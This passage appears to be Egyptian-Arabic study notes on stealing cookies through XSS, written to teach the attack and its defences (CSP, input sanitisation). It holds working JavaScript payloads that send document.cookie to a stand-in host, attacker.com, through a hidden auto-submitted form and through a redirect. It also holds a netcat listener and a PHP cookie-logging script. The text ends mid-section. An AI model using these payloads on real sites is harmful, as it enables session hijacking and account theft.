 

### الشرح تاني للطريقه 
![2025-05-11 17-36-06.mkv](attachments/2025-05-11 17-36-06.mkv)





----
## 2. **إرسال الكوكيز عن طريق فورم مخفية**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم (نموذج HTML) مخفي في الصفحة، وبيحط الكوكيز في حقل الفورم.
     - بعدين بيبعت الفورم تلقائيًا لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var form = document.createElement("form");
       form.method = "POST";
       form.action = "http://attacker.com/steal";
       var input = document.createElement("input");
       input.type = "hidden";
       input.name = "cookie";
       input.value = document.cookie;
       form.appendChild(input);
       document.body.appendChild(form);
       form.submit();
       ```
       - `document.createElement`: بيعمل فورم ديناميكي.
       - `form.submit()`: بيبعت الفورم تلقائيًا.
     - **إعداد سيرفر المهاجم**:
       - نفس الأمر بتاع netcat:
         ```bash
         nc -lvp 80
         ```
       - أو سكربت PHP لتخزين البيانات:
         ```php
         <?php
         file_put_contents("stolen_cookies.txt", $_POST['cookie'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - زي ما قلنا: يا في تعليق (Stored XSS) يا في لينك (Reflected XSS).
   - **الحماية**:
     - استخدم CSP عشان تمنع الفورمات من الإرسال لغير المواقع الموثوقة.
     - نظف المدخلات عشان تمنع إضافة سكربتات.

## 3. **تحويل الضحية لسيرفر المهاجم مع الكوكيز**
   - **إزاي بتحصل؟**
     - السكربت بيحط الكوكيز في لينك وبيعمل ريدايركت (تحويل) لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       window.location = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
       ```
       - `window.location`: بيعمل ريدايركت للينك.
       - `encodeURIComponent`: بيشفر الكوكيز عشان تتبعت صح في الـ URL.
     - **إعداد سيرفر المهاجم**:
       - زي الأول، netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
